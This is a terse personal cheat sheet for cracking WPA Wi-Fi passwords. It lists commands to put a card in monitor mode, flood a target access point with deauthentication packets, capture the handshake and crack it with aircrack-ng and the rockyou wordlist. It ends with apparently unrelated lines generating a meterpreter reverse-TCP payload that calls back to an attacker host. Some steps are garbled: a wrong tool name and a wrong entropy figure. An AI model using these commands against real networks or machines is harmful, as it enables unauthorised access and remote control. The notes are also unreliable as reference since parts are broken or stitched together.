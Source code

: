 # Wireless Cracking theory
## prerequisite
- wireless card with monitor mode + set it in monitor mode
- be near a wifi access point
- need to get channel number
- understand 4-way hanshake protocol
## steps
1/ de-authentication package
2/ all host try to reconnect back
3/ intercept 4-way-handshake packet to get hashed psw
4/ crack psw (can be done offline) with aircrack (cpu or gpu) or hashcat (both cpu & gpu)

- get current wireless card mode : iwconfig
- set it to monitor mode : ifconfig wlo1 down ; iwconfig wlo1 mode monitor/managed ; ifconfig wlo1 up
- sometimes, no internet acces on monitor mode

### steps 1+2+3
```
NAME
       airmon-ng - POSIX sh script designed to turn wireless cards into monitor mode.
```
- list and kill process that uses wifi : airmon-ng check kill
- start sniffing : airmon-ng check wlo1
- start sniffing : `airmon-ng -c <channel number, example=6> --bssid <mac address of target accesspoint> -w <output_file> wlo1`
- disconnect everyone from accesspoint (send disconnect package in infinite loop until ctrl-c) : `aireplay-ng -0 0 -a <mac address of acces point>` wlo1
- stop sniffing as handshake packet have been exchanged, packet are stored in .cap file

psw entropy = 18^62 = 6.7.10^77
- 26 upercase letter
- 26 lowercase letter
- 10 digits
- 18 char


### step 4
- list of most common password in France : https://github.com/tarraschk/richelieu
#### Aircrack
- find psw DB : `locate rockyou.txt`
```
┌──(kali㉿kali)-[~]
└─$ ls -alh /usr/share/wordlists/rockyou.txt.gz
-rw-r--r-- 1 root root 51M May 31 10:31 /usr/share/wordlists/rockyou.txt.gz
```
- unzip
```
aircrack-ng -w rockyou.txt <output_file>.cap
```


[powershell/meterpreter/rev_tcp>>]: set SLEEP 42
[powershell/meterpreter/rev_tcp>>]: set LHOST <kali ip>
[powershell/meterpreter/rev_tcp>>]: generate